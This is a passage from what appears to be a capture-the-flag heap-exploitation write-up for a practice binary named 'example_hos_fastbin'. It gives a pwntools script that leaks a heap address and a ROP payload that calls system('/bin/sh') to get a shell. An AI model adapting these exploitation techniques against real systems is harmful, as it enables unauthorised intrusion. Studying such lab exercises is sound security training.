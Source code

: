 ```python
create(0x50, b'a')
rop = ROP(libc)
payload = flat(
        stack,
        rop.find_gadget(['ret']).address,
        rop.find_gadget(['pop rdi', 'ret']).address, next(libc.search(b'/bin/sh')),
        libc.sym.system
)
create(0x50, payload)
```

## script

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('example_hos_fastbin', checksec=False)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''

                b*main+628
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('')
else:
        p = process(exe.path)

GDB()
def create(size, content):
        sla(b'> ', '1')
        sla(b': ', str(size).encode())
        sa(b': ', content)
def remove(idx):
        sla(b'> ', '2')
        sla(b': ', str(idx).encode())
def write(payload):
        sla(b'> ', '3')
        sa(b'fun\n', payload)
def gift():
        sla(b'> ', '4')
        p.recvuntil(b't: \n')
        return int(p.recvline(keepends = False).decode())
create(8, b'a') # 0
remove(0)
create(8, b'0') # 0
p.recvuntil(b'tent: \n')
heap = u64(p.recvline(keepends = False).ljust(8, b'\0')) <<12
print(hex(heap))
```
